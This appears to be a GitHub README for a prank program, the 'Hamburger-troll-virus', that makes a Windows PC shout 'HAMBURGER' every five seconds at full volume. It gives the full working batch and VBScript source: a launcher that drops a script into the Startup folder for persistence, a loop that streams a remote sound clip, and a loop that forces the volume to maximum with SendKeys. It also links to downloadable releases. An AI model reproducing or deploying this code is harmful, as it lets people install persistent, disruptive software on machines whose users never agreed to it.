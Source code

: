 ![hamburger](http://leoaqua.de/hamburger.ico)
# Hamburger-troll-virus

# What does it do?

It let's your PC say "HAMBURGER" every 5 seconds with full volume after login or reboot

# FAQ
 Is it dangerous?
 - No 
 
 How can I get rid of it?
 
 - Execute uninstall.exe 
 
 It does not start!
 
 - Just wait or log off
 
 
# Download

[Releases](https://github.com/Leo-Aqua/Hamburger-troll-virus/releases)
 
# How it works

- launcher.bat

```Batchfile
@echo off
move hamburger.vbs %temp%
move volup.vbs %temp%
move tab.bat "%appdata%\Microsoft\Windows\Start Menu\Programs\Startup"
move launcher.bat %temp%
```
Installs files




- hamburger.vbs

```VBScript
While true
Dim oPlayer
Set oPlayer = CreateObject("WMPlayer.OCX")
wscript.sleep 5000
oPlayer.URL = "https://www.myinstants.com/media/sounds/hamburger-sound-effect.mp3"
oPlayer.controls.play
While oPlayer.playState <> 1 ' 1 = Stopped
WScript.Sleep 100
Wend
oPlayer.close
Wend
```

Plays the _"hamburger"_ sound every 5 seconds

- volup.vbs
```VBScript
do
wscript.sleep 50
Set WshShell = CreateObject("WScript.Shell")
WshShell.SendKeys(chr(&hAF))
loop
```
raises volume to max using _"sendkeys"_ command

- tab.bat
```Batchfile
cd %temp%
start hamburger.vbs
start volup.vbs
exit
```
Starts everything

# Compiler
IExpress LMAO

